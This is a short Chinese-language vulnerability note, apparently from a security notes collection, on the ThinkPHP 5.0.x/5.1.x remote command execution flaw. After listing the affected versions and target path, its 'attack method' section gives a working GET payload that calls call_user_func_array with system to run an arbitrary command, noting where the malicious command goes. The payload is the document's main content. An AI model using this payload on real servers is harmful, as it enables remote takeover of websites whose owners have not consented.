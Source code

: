 ## 简介

该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

ThinkPHP 5.0.x < 5.0.23

ThinkPHP 5.1.x < 5.1.31

5.0.23和5.1.31版本之前的版本不一定被影响，而且某些版本可能需要开启debug才可以

## 影响地址

http://ip:port/index.php

## 攻击方法

![image-20240331231208057](../../photo/image-20240331231208057.png)

在访问该网页的GET请求头上添加

```http

?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
//vars[1][]为要执行的恶意命令
```

![image-20240331231225922](../../photo/image-20240331231225922.png)